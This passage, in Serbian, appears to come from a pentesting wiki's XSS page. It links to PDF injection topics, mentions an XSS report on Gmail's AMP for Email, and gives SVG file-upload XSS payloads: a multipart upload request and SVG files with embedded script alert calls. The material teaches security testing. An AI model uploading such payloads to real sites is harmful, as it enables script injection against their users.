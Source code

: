 {% content-ref url="server-side-xss-dynamic-pdf.md" %}
[server-side-xss-dynamic-pdf.md](server-side-xss-dynamic-pdf.md)
{% endcontent-ref %}

Ako ne možete da ubacite HTML tagove, vredno je pokušati da **ubacite PDF podatke**:

{% content-ref url="pdf-injection.md" %}
[pdf-injection.md](pdf-injection.md)
{% endcontent-ref %}

### XSS u Amp4Email-u

AMP, sa ciljem ubrzanja performansi veb stranica na mobilnim uređajima, uključuje HTML tagove dopunjene JavaScript-om kako bi se osigurala funkcionalnost sa naglaskom na brzinu i bezbednost. Podržava niz komponenti za različite funkcije, dostupnih putem [AMP komponenti](https://amp.dev/documentation/components/?format=websites).

Format [**AMP za Email**](https://amp.dev/documentation/guides-and-tutorials/learn/email-spec/amp-email-format/) proširuje određene AMP komponente na e-poštu, omogućavajući primaocima da direktno interaguju sa sadržajem unutar svojih e-poruka.

Primer [**izveštaja o XSS u Amp4Email-u u Gmail-u**](https://adico.me/post/xss-in-gmail-s-amp4email).

### XSS otpremanje fajlova (svg)

Otpremite kao sliku fajl poput sledećeg (sa [http://ghostlulz.com/xss-svg/](http://ghostlulz.com/xss-svg/)):

```markup
Content-Type: multipart/form-data; boundary=---------------------------232181429808
Content-Length: 574
-----------------------------232181429808
Content-Disposition: form-data; name="img"; filename="img.svg"
Content-Type: image/svg+xml

<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
<rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" />
<script type="text/javascript">
alert(1);
</script>
</svg>
-----------------------------232181429808--
```

```markup
<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
<script type="text/javascript">alert("XSS")</script>
</svg>
```

```markup
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
<polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
<script type="text/javascript">
alert("XSS");
</script>
</svg>
```
